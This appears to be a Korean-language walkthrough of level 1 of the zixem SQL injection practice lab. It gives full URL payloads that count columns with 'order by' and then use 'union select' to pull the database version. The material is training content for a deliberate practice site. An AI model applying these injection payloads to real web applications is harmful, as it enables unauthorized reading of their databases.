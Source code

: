 # <p align="center">💉level 1</p>
> -문제 풀이
>> - 문제 조건
>> 1. zixem은 내가 원하는 데이터를 띄우는게 목적이다.
>> ##### ㅤㅤㅤ※우리가 원하는 데이터는 SQL의 버전으로 하겠다. 
>
>> - 문제 풀이
>> 1. 일단 sqli가 되는 환경인지 알아보기 위해 에러 유발인자를 넣어본다.
>> 2. sqli가 되는 환경인걸 확인했으면 order by를 사용해 컬럼의 갯수 확인<br/>
>>https://www.zixem.altervista.org/SQLi/level1.php?id=1 order by 1-- (O)<br/>
>>https://www.zixem.altervista.org/SQLi/level1.php?id=1 order by 5-- (X)<br/>
>>https://www.zixem.altervista.org/SQLi/level1.php?id=1 order by 3-- (O)<br/>
>> 3. 컬럼 갯수가 확인이 됐으면 컬럼마다 값을 하나씩 넣어본다.
>>https://www.zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3--
>> 4. 안될거다. 왜냐하면 임의로 값을 넣는 작업은 엄연히 문제가 생기기 때문에<br/>
>>사이트에서 원래 나올 정상값을 위에 덮어서 보여준다 따라서 에러를 일으켜 벗겨낸다.
>>https://www.zixem.altervista.org/SQLi/level1.php?id=1234 union select 1,2,3--
>> 5. 화면에 나오는 넣은 값의 위치를 확인하고 우리가 원하는 값을 입력한다.
>>https://www.zixem.altervista.org/SQLi/level1.php?id=1234 union select version(),2,3--
